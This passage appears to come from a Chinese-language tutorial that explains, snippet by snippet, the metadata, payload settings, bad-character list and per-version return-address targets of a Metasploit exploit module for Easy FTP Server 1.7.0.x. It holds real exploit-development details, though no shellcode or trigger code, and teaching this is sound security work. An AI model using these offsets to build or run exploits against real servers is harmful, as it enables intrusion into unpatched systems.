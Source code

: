 ```
      'License'        => MSF_LICENSE, 
      'Version'        => '$Revision: 9935 $', 
      'References'     => 
        [ 
[ 'OSVDB', '62134' ], 
[ 'URL', 'http://www.exploit-db.com/exploits/12044/' ], 
[ 'URL', 'http://www.exploit-db.com/exploits/14399/' ] 
        ], 
```

以下代码指示负载在执行过程完成后自行清理：

```
 'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread' 
```

以下代码段定义了外壳代码可用的 512 字节空间，列出了应终止有效负载传递的错误字符，并禁用 NOP 填充：

```
 }, 
      'Privileged'     => false, 
      'Payload'        => 
        { 
          'Space'    => 512, 
          'BadChars' => "x00x0ax0dx2fx5c", 
          'DisableNops' => true 
        }, 
```

下面的代码片段提供了关于目标平台的说明，并定义了易受攻击的目标（`0`到`9`，这些目标列出了 Easy FTP 服务器（`1.7.0.2 to 1.7.0.11`的不同版本，每个版本表示基于应用程序二进制文件（`ftpbasicsvr.exe`的唯一返回地址）。此外，增加了漏洞披露日期，默认目标设置为`0`（`v1.7.0.2`：

```
 'Platform'       => 'win', 
      'Targets'        => 
        [ 
[ 'Windows Universal - v1.7.0.2',   { 'Ret' =>
          0x004041ec } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.3',   { 'Ret' =>
          0x004041ec } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.4',   { 'Ret' =>
          0x004041dc } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.5',   { 'Ret' =>
          0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.6',   { 'Ret' =>
          0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.7',   { 'Ret' =>
          0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.8',   { 'Ret' =>
          0x00404481 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.9',   { 'Ret' =>
          0x00404441 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.10',  { 'Ret' =>
          0x00404411 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.11',  { 'Ret' =>
          0x00404411 } ], # call ebp - from ftpbasicsvr.exe 
        ], 
      'DisclosureDate' => 'Apr 04 2010', 
      'DefaultTarget' => 0)) 
```
